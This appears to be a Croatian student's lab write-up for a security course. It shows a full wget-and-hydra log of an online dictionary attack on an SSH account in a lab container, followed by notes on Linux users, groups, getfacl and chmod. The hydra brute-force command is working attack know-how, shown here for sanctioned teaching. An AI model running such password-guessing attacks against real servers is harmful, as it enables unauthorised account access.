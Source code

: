 # Peta i šesta laboratorijska vježba

## **Peta vježba**

Kroz ovu vježbi smo radili online password guessing attack. Probali smo koristeći unaprijed definirani dictionary pronaći lozinku iz njega koja se podudara s mojim korisničkim imenom na Docker containeru. S obzirom da smo radili online napad aktivno smo kontaktirali server i pokušavali se prijaviti direktno na određenu IP adresu.

```bash
Microsoft Windows [Version 10.0.19043.1415]
(c) Microsoft Corporation. All rights reserved.

C:\Users\A507>wsl
student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ wget -r -nH -np --reject "index.html*" http://a507-server.locary/g3/dictionar
--2022-01-11 11:03:36--  http://a507-server.local:8080/dictionary/g3/
Resolving a507-server.local (a507-server.local)... 10.0.1.172, fe80::aaa1:59ff:fe69:5278
Connecting to a507-server.local (a507-server.local)|10.0.1.172|:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘dictionary/g3/index.html.tmp’

dictionary/g3/index.html.tmp      [ <=>                                              ]   4.59K  --.-KB/s    in 0s

2022-01-11 11:03:36 (259 MB/s) - ‘dictionary/g3/index.html.tmp’ saved [4700]

Loading robots.txt; please ignore errors.
--2022-01-11 11:03:36--  http://a507-server.local:8080/robots.txt
Reusing existing connection to a507-server.local:8080.
HTTP request sent, awaiting response... 404 Not Found
2022-01-11 11:03:36 ERROR 404: Not Found.

Removing dictionary/g3/index.html.tmp since it should be rejected.

--2022-01-11 11:03:36--  http://a507-server.local:8080/dictionary/g3/dictionary_offline.txt
Reusing existing connection to a507-server.local:8080.
HTTP request sent, awaiting response... 200 OK
Length: 350546 (342K) [text/plain]
Saving to: ‘dictionary/g3/dictionary_offline.txt’

dictionary/g3/dictionary_offl 100%[=================================================>] 342.33K  --.-KB/s    in 0.03s

2022-01-11 11:03:36 (11.7 MB/s) - ‘dictionary/g3/dictionary_offline.txt’ saved [350546/350546]

--2022-01-11 11:03:36--  http://a507-server.local:8080/dictionary/g3/dictionary_online.txt
Reusing existing connection to a507-server.local:8080.
HTTP request sent, awaiting response... 200 OK
Length: 3346 (3.3K) [text/plain]
Saving to: ‘dictionary/g3/dictionary_online.txt’

dictionary/g3/dictionary_onli 100%[=================================================>]   3.27K  --.-KB/s    in 0s

2022-01-11 11:03:36 (287 MB/s) - ‘dictionary/g3/dictionary_online.txt’ saved [3346/3346]

FINISHED --2022-01-11 11:03:36--
Total wall clock time: 0.09s
Downloaded: 3 files, 350K in 0.03s (12.0 MB/s)

student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ hydra -l jukic_marija -P dictionary/g3/dictionary_online.txt 10.0.15.0 -V -t
4 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-01-11 11:05:27
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 478 login tries (l:1/p:478), ~120 tries per task
[DATA] attacking ssh://10.0.15.0:22/
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtal" - 1 of 478 [child 0] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajpgz" - 2 of 478 [child 1] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtnj" - 3 of 478 [child 2] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajplk" - 4 of 478 [child 3] (0/0)
....
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtlp" - 331 of 478 [child 0] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtgz" - 332 of 478 [child 2] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "cowona" - 333 of 478 [child 3] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "thened" - 334 of 478 [child 1] (0/0)
[22][ssh] host: 10.0.15.0   login: jukic_marija   password: thened
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-01-11 11:11:04
```

Uspjela sam pronaći lozinku koja je bila unutar dictionaryja koja se podudarala s lozinkom na docker containeru s mojim imenom. Nažalost statistika nije bila na mojoj strani, pa se moja lozinka nalazila na drugoj polovici dictionaryja pa je za pronalazak podudaranja trebalo malo više vremena.

S obzirom na ograničeno vrijeme nismo stigli napraviti offline password guessing attack.

## Šesta vježba

Kroz ovu vježbu smo učili kako upravljati korisničkim računima na linuxu, odnosno istraživali smo kontrolu pristupu.

U Linux-u svaka datoteka ili program (binary executable file) ima vlasnika (user or owner). Svakom korisniku pridjeljen je jedinstveni identifikator User ID (UID). Svaki korisnik mora pripadati barem jednoj grupi (group), pri čemu više korisnika može dijeliti istu grupu. Linux grupe također imaju jedinstvene identifikatore Group ID (GID).
S id provjeravamo identifikatore uid i gid za korisnika te pripadnost grupama.
Kad koristimo sudo to nam daje administratorska prava tj. s time dokazujemo da pripadamo grupi sudo.
```bash
sudo adduser alice3
sudo adduser bob3
```
S ovom komandom kreiramo nove korisnike koji pripadaju određenim grupama i imaju određeni uid i guid.
Da bi ušli u ove korisničke račune koristimo sljedeću naredbu:
```bash
sudo - alice3
exit
```
Exit koristimo unutar shella korisnika za vraćanje na shell s administratorskim ovlastima.
Česte linux komande su mkdir za kreiranje novih direktorija, cd za ulazak ili cd.. za izlazak iz nekog direktorija, za ispis nekog filea koristimo cat.
Kreiramo neki file s tekstom na sljedeći način:
```bash
echo "Hello world" > security.txt
```
Naredbama ls -l ili getfacl prikazujemo informacije o direktoriju i datotekama
```bash
alice3@DESKTOP-7Q0BASR:~/SRP$ getfacl security.txt
file: security.txt
owner: alice3
group: alice3
user::rw-
group::rw-
other::r--
```
Za file security.txt alice3 može čitati i pisati unutar njega kao i user. Dok svi ostali korisnici mogu samo čitati taj file.
Za mijenjanje dopuštenih prava koristimo se naredbom chmod možemo raditi sljedeće: želimo li dodati ili maknuti pravo(+ ili -) te ovisno koje pravo(r(ead),w(rite),e(x)ecute).
Primjer kako to funkcionira u kodu:
```bash
# Remove both (u)ser and (g)roup (w)rite permission
chmod ug-w security.txt
```
